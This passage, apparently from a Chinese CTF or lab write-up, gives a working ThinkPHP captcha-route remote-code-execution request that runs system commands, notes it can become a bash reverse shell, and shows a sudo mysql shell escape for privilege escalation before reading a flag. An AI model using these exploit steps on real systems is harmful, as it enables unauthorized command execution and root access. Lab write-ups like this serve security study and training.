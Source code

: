 构造 exp 如下，直接弹 shell 即可

```bash
POST /index.php?s=captcha HTTP/1.1
Host: 39.99.144.193
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
# 可更改为 bash 反弹 shell，记得 url 编码即可
```

### sudo mysql 提权

反弹 shell 后，需要进行提权操作，执行如下命令

```bash
sudo mysql -e '\! /bin/sh'
```

参考：[https://gtfobins.github.io/gtfobins/mysql/](https://gtfobins.github.io/gtfobins/mysql/)

[![](assets/1709193375-58c203441341edd9ddfd526bad532997.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205317-2d377bfe-d56f-1.png)

成功读取到第一步 flag

[![](assets/1709193375-d33deeeed822ea84793dcc4346251efc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205331-360361e4-d56f-1.png)
